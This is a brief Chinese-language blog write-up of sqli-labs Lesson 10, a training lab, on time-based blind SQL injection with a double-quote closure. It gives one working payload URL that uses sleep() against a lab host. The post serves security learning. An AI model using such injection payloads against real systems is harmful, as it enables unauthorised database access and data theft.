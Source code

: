```yaml
---
title: sqli-labs-lession 10 GET双引号基于时间盲注
date: 2018-09-26 21:24:52
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs-lession 10 GET双引号基于时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-10/1.png)

## 注入过程 ##

题目已经提示我们了,跟Lesson-9一样是时间盲注,只是SQL语句中变量的闭合使用了双引号。

判断一下类型,其他的和Lesson-9步骤没有区别。

`http://10.60.250.151/sqlilabs/Less-10/?id=1" and if(1,sleep(60),null)%23`

![2](/img/sql/Lesson-10/2.png)

{% post_link sqli-labs-lession-9-GET单引号基于时间盲注 点击查看Lesson-9%}